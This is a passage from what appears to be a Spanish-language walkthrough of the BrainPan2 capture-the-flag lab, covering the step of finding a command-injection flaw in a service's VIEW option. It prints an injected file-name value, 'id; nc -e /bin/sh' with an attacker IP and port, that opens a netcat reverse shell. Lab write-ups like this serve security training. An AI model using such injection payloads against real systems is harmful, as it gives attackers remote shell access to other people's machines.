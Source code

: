 2. Buscamos las opciones que puedan permitir INYECCIÓN
El comando VIEW permite realizar inyecciones de comandos.

<img src="https://github.com/El-Palomo/BrainPan2/blob/main/Brain5.jpg" width="60%"></img>

3. A través de la INYECCIÓN ejecutamos un NETCAT para obtener conexión remota.

```
                         >> VIEW
    ENTER FILE TO DOWNLOAD: id; nc -e /bin/sh 192.168.78.131 5555
```
<img src="https://github.com/El-Palomo/BrainPan2/blob/main/Brain6.jpg" width="60%"></img>


## ELEVAR PRIVILEGIOS

